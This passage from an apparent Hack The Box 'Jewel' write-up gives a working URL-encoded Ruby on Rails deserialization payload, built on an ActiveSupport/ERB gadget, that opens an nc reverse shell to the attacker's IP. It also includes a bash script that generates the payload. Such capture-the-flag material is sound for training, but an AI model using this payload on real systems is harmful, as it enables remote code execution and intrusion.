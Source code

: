 ``` bash
```

![](/assets/images/htb-jewel/21_jewel_payload_generate.png)

>**NOTE:** If copying and pasting the commands from the GitHub page, you may run into an error when defining the payload, this is happening because the instructions is missing an "=" sign. Please refer to my commands above.

Another option would be to use the payload that I have already created and then to just add your tunnel IP and your listening port to the reverse shell command.

``` bash
%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+<YOUR TUNNEL IP>+<YOUR LISTENING PORT>+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
```

Another option is to just use this very simple bash script I've put together that will take your IP as the first argument, and your listening port as the second and then output the prepared version of the payload for you.

``` bash
#!/bin/bash

lhost=$1;
lport=$2;

payload="%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+${lhost}+${lport}+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T";

echo $payload;
```

![](/assets/images/htb-jewel/07_jewel_payload_gen.png)
